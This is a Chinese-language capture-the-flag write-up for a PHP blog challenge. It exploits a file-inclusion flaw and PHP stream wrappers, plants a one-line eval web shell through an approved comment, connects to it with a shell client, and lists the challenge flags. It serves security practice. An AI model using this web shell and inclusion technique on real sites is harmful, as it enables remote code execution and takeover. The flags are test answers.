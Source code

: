 # Cody's First Blog

运用到文件包含漏洞的使用，以及PHP伪协议的知识。

### Flag1

![](/media/1dsaf1231d.png)

提交评论得到第一个flag（这里提交的内容包含&lt;?php都会弹出flag）

![](/media/12sa124ar13r.png)

**Flag1：**

**^FLAG^70fb6cb5f09fce5fb32c79e83f932dd7325e72bca4a060cd2da8c632dd838a58$FLAG$**

响应包有提到评论需要审核

回到首页，查看源代码发现如下注释：

![](/media/12ewd12sad1.png)

&lt;a href="?page=admin.auth.inc"&gt;Admin login&lt;/a&gt;

跟过去

![](/media/qwdqw21edsag.png)

是一个管理员的登录入口，先把他丢到burpsuit里面爆破，然后继续寻找线索（爆破了一个小时什么也没有，应该是烟雾弹）

### Flag2

注意到：[http://35.196.135.216:5001/d48c38814d/?page=admin.auth.inc](http://35.196.135.216:5001/d48c38814d/?page=admin.auth.inc)

我们对page参数进行修改一下看看

![](/media/eghgjt65ufg.png)

显然这是一个文件包含了，那思路就逐渐清晰，先扫一波存在的文件\(分析结构应该为xx.inc.php文件，这里并不能跨目录包含，已经限制了文件包含的路径\)源代码已经强制在后面添加了.php后缀。（这里方便筛选，包含成功的不会出现字符串Warning，这一条件可以作为筛选项）

![](/media/fafher45uhgf.png)

得到的结果大概就这三个。

访问一下admin.inc这个页面

![](/media/gsdg43h46ghj.png)

页面最底下有一个flag

^FLAG^3b3811daa28ae899032343b43e155238cdf7ae8c921f78d0494813a3dcad0e5c$FLAG$

不仅如此，注意到上面有确认评论的选项，尝试确认一下评论。

![](/media/grege75kgkkgh.png)

回到主页我们惊喜的发现，评论插进了主页，这里就有一个骚思路了，那就是对index文件进行包含，从而达到插入的命令以PHP语句来执行。

![](/media/rthrtmhcvb567d3.png)

### Flag3

插入&lt;?php phpinfo\(\); ?&gt;，并且确认评论

![](/media/asd1das23t262.png)

虽然在页面上没有看到我们插入的内容，但是我们尝试用php伪协议

**PHP伪协议**

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen\(\)、 copy\(\)、 file\_exists\(\) 和 filesize\(\) 的文件系统函数。 除了这些封装协议，还能通过 stream\_wrapper\_register\(\) 来注册自定义的封装协议。

[https://www.cnblogs.com/lgf01010/p/9595391.html](https://www.cnblogs.com/lgf01010/p/9595391.html)

**目录**

[![](/media/fasf1ff1fsg.jpg "目录")](http://image.3001.net/images/20180827/1535362079_5b83c41fbe910.png)

URL如下：

![](/media/fsdaf2fdsy32.png)

我们惊喜的发现，插入的PHP代码被解析并且执行了。

下面就是直接插入一句话

&lt;?php @eval\($\_POST\['cmd'\]\); ?&gt;

前往admin.inc确认评论

![](/media/3rfdsg3hgffh.png)

然后直接用菜刀连接

![](/media/asf1dsa112.png)

最后一个flag在index.php注释里面

![](/media/qwasf2t32dsf.png)

^FLAG^7c0e45cb6dbb53a134e5627e432a2a660192cdf3fe1dcf5e06b91886594e35e4$FLAG$

![](/media/asff1231hk76.png)

自此全部完成

